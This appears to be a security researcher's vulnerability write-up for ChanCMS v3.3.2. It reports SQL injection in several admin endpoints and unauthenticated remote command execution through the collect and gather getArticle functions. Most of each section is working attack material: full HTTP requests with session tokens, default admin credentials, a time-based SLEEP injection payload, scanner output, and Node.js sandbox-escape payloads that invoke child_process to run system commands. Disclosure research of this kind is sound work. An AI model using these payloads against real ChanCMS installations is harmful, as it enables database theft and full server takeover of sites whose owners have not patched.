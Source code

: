 ```yaml
---
title: ChanCMSv3.3.2
---
```


*Author：Narcher*	*Date：2025/10/5*	*Category：Vulnerability Discovery*

<!--more-->

> Project Source Code: [ChanCMS: ChanCMS is a high-quality and practical CMS system developed based on Node, Express 5, MySQL, and Vue 3. Lightweight, flexible, stable, high-performance, and easily extensible, it makes development simpler.](https://gitee.com/chancms/ChanCMS)
>
> Project Version: v3.3.2

The following are the four vulnerabilities identified during the audit:

### /cms/article/findField

After downloading the source code, deploy it directly and log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing reveals that the `findField` function in `/cms/article/findField?cid=8` does not validate the input parameters.

<img src="ChanCMSv3.3.2/image-20251005195854334.png" alt="image-20251005195854334" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005195950511.png" alt="image-20251005195950511" style="zoom:50%;" />

By modifying the `cid` parameter, SQL injection can be performed:

<img src="ChanCMSv3.3.2/image-20251005203317104.png" alt="image-20251005203317104" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005200056475.png" alt="image-20251005200056475" style="zoom:50%;" />

Directly modifying the URL requires adding a token, which is obtained after logging in as **chancms**.
 The contents of `d.txt` are as follows:

```
GET /cms/article/findField?cid=1 HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list
Connection: keep-alive
```

When running locally you can see a WAF is present, but it failed to block the payload:
 `/cms/article/findField?cid=1+AND+(SELECT+1103+FROM+(SELECT(SLEEP(5)))vbUE)`

<img src="ChanCMSv3.3.2/image-20251005200453009.png" alt="image-20251005200453009" style="zoom:50%;" />

The SQL injection is successful.



### /cms/article/update

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `update` function in `/cms/article/update` does not validate the `cid` parameter.

<img src="ChanCMSv3.3.2/image-20251005201715297.png" alt="image-20251005201715297" style="zoom:50%;" />

```
[Vuln: sqldet]
Target           "http://192.168.58.128:3000/cms/article/update"
VulnType         "blind-based/default"
Payload          "(select*from(select+sleep(2)union/**/select+1)a)"
Position         "body"
ParamKey         "id"
ParamValue       "(select*from(select+sleep(2)union/**/select+1)a)"
sleep_time       "2000"
p_time           "11"
n_time           "4013"
stat             "{\"normal\":{\"samples\":[107,112,88,75,58,56],\"avg\":82.66666666666667,\"std_dev\":21.830152440043918,\"sleep_time\":2},\"sleep_0_time\":11,\"quick_check\":{\"samples\":[4013],\"sleep\":2},\"verify\":{\"samples\":[6013,6012,6011],\"sleep\":3}}"
title            "Generic MySQL time based case [number/column]"
type             "time_based"
avg_time         "82"
std_dev          "21"
```

<img src="ChanCMSv3.3.2/image-20251006123321111.png" alt="image-20251006123321111" style="zoom: 33%;" />

 The contents of `d.txt` are as follows:

```
POST /cms/article/update HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cid=111111
```



### /cms/collect/getArticle

Although the `getArticle` function in `app/modules/cms/controller/collect.js` uses `app/middleware/guard.js` as a WAF to intercept requests, the WAF is incomplete and can be bypassed.

<img src="ChanCMSv3.3.2/image-20251006161304637.png" alt="image-20251006161304637" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006161531724.png" alt="image-20251006161531724" style="zoom:50%;" />

Since this interface lacks permission validation, it can be accessed without logging in, leading to command execution：

<img src="ChanCMSv3.3.2/image-20251008145238157.png" alt="image-20251008145238157" style="zoom:50%;" />

POC:

```
POST /cms/collect/getArticle HTTP/1.1
Host: 192.168.58.128:3000
Content-Length: 301
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
Accept: application/json, text/plain, */*
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.58.128:3000
Referer: http://192.168.58.128:3000/public/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"taskUrl":"http://opinion.people.com.cn/n1/2025/1006/c1003-40577077.html","titleTag":"#newstit","articleTag":".rm_txt_con","parseData":"return (p => p.getBuiltinModule('child_process').spawnSync('whoami', [], {}).output[1].toString())(this.constructor.constructor('return process')())","charset":"1"}
```

<img src="ChanCMSv3.3.2/image-20251008145827345.png" alt="image-20251008145827345" style="zoom:50%;" />

Allows direct command execution.

If the target Node.js is an older version, the following POC can be used:

```
return this.constructor.constructor('return process')().mainModule.require('child_process').execSync('id').toString()
```



### /cms/model/hasUse

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `hasUse` function in `/cms/model/hasUse?id=1` does not validate the `id` parameter.

<img src="ChanCMSv3.3.2/image-20251006170206614.png" alt="image-20251006170206614" style="zoom:67%;" />

<img src="ChanCMSv3.3.2/image-20251006200453286.png" alt="image-20251006200453286" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006200511107.png" alt="image-20251006200511107" style="zoom:50%;" />

### /cms/gather/getArticle

The `getArticle` function in `app\modules\cms\controller\gather.js` does not perform any validation or protection on the input parameters, which can lead to code injection and subsequently result in remote command execution.

<img src="ChanCMSv3.3.2/image-20251007213400873.png" alt="image-20251007213400873" style="zoom:50%;" />

First, log in to the backend at `/public/admin/index.html` using the weak credentials `chancms/123456`:

<img src="ChanCMSv3.3.2/image-20251008151226420.png" alt="image-20251008151226420" style="zoom:50%;" />

```
GET /cms/gather/getArticle?taskUrl=http%3a//opinion.people.com.cn/n1/2025/1006/c1003-40577077.html&parseData=return+(p+%3d>+p.getBuiltinModule('child_process').spawnSync('whoami',+[],+{}).output[1].toString())(this.constructor.constructor('return+process')()) HTTP/1.1
Host: 192.168.58.128:3000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjEyLCJ1c2VybmFtZSI6ImFkbWluIiwiZiI6Ijg1MjdiZTc2YmJlYTUyODgzZDc5M2Y5NTAzNWNmMmU1IiwiaSI6IjIxOC4xOTQuNDIuMTM2IiwiaWF0IjoxNzU5ODQxNzA5LCJleHAiOjE3NTk5MjgxMDl9.KioeejMLbx4dSdWb9naniiXpfqVwBlgntSXVt4cjDYg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjEyLCJ1c2VybmFtZSI6ImFkbWluIiwiZiI6Ijg1MjdiZTc2YmJlYTUyODgzZDc5M2Y5NTAzNWNmMmU1IiwiaSI6IjIxOC4xOTQuNDIuMTM2IiwiaWF0IjoxNzU5ODQxNzA5LCJleHAiOjE3NTk5MjgxMDl9.KioeejMLbx4dSdWb9naniiXpfqVwBlgntSXVt4cjDYg; n=admin; perms=api.site.query%2Capi.category.list%2Capi:article:list%2Capi:slide:list%2Capi:tag:list%2Capi:tag:list%2Capi:collect:list%2Capi:gather:index%2Capi:model:list%2Capi:field:list%2Capi:friendlink:list%2Capi:message:list%2Capi:user:list%2Capi:role:list%2Capi:menu:list%2Capi:menu:list
Connection: keep-alive


```

<img src="ChanCMSv3.3.2/image-20251007214934765.png" alt="image-20251007214934765" style="zoom:50%;" />
